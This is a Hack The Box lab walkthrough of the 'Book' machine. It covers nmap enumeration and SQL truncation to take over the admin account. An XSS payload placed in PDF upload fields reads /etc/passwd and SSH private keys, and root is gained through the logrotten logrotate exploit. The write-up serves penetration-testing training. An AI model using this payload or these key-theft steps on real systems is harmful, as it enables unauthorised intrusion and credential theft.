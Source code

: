 ```yaml
---
layout: post
title:  Hack The Box - Book
category: walkthrough
date:   2020-07-25 07:00:00
---
```


# ![Book](/assets/img/book/book.png)  
<center> Book is a medium machine created by [MrR3boot](https://www.hackthebox.eu/home/users/profile/13531)</center>   
  
  
  
# Enumeration
### <center>Nmap</center>  
  
<center>As always, begin with nmap</center>  

>nmap -sC -sV -T4 -p 22,80 10.10.10.176  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-25 00:18 -03  
>Nmap scan report for 10.10.10.176  
>Host is up (0.19s latency).  
>  
>PORT   STATE SERVICE VERSION  
>22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
>| ssh-hostkey:   
>|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)  
>|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)  
>|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)  
>80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
>| http-cookie-flags:   
>|   /:   
>|     PHPSESSID:   
>|_      httponly flag not set  
>|_http-server-header: Apache/2.4.29 (Ubuntu)  
>|_http-title: LIBRARY - Read | Learn | Have Fun  
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
>
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 12.69 second    
  
<center>Opening the port 80 I got this</center>  
# ![book1](/assets/img/book/book1.png)
  
<center>After register I found the admin  email: admin@book.htb</center>  
# ![book2](/assets/img/book/book3.png)
  
<center>At first I didn't know what to do with this</center>  
<center>Until I back to home page, look the source and find this</center>  
# ![book3](/assets/img/book/book2.png)  
  
### <center>SQL Truncation</center>
  
<center>Using *[SQL truncation](https://resources.infosecinstitute.com/sql-truncation-attack/)* with Burp Suite I tested "name" and "email" fields with more characters<center>  
  
# ![book4](/assets/img/book/book4.png)  
  
<center>Logged in with the credentials admin@book.htb qwerty</center>  
  
# ![book5](/assets/img/book/book5.png)  
  
<center>Using *[this](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)* as reference I found a way in</center>  
### <center>Exploit</center>  
  
<center>Loged as user again I uploaded a pdf with the fields "author" and "book title" filled with this script</center>  
<center>\*Missing tags</center>  
  
<center>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</center>  
  
  
  
<center>Downloading the pdf at http://10.10.10.176/admin/collections.php?type=collections I got the /etc/passwd</center>  

# ![book6](/assets/img/book/book6.png)  
  
<center>If I was runnin to get user blood next step would be "file:///home/reader/user.txt"</center>  
  
<center>Before get the id\_rsa from reader I tried root, perhaps...</center>  
  
<center>Now I know that there is a user called reader, I chnged the script part "///etc/passwd" to "/home/reader/.ssh/id\_rsa and uploaded a new pdf, downloaded it again and a got the id\_rsa from user reader</center>  
  
<center>Copy that to another file called id\_rsa and "chmod 600 id\_rsa"</center>  
  
# ![book7](/assets/img/book/book7.png)  
  
<center>Now just "ssh -i id\_rsa reader@10.10.10.176" and smile</center>  
  
# ![book8](/assets/img/book/book8.png)</center>
  
  
# Privilege Escalation  
  
  
<center>After enumerate almost everything and don't find nothing</center>  
<center>I used [pspy](https://github.com/DominicBreuker/pspy.git) and find root process</center>  
<center>scp -i id\_rsa pspy64s reader@10.10.10.176</center>  
  
  
<center>pspy give me this process logrotate /usr/sbin/logrotate -f /root/log.cfg</center>  
  
# ![book9](/assets/img/book/book9.png)  
  
<center>Search logrotate exploit in google and found [this](https://github.com/whotwagner/logrotten) on github</center>  
<center>Cloned the repository and uploaded it with scp command</center>  
<center>Unziped the archive and compiled the logrotten.c with gcc</center>  
  
<center>gcc -o logrotten logrotten.c</center>  
  
<center>Created the payload  and executed logrotten</center>  
  
# ![book10](/assets/img/book/book10.png)  
  
<center>Now just cat /tmp/id\_rsa to another file and ssh to root</center>  
  
  
# ![book11](/assets/img/book/book11.png)  
# ![book12](/assets/img/book/book12.png)  
  
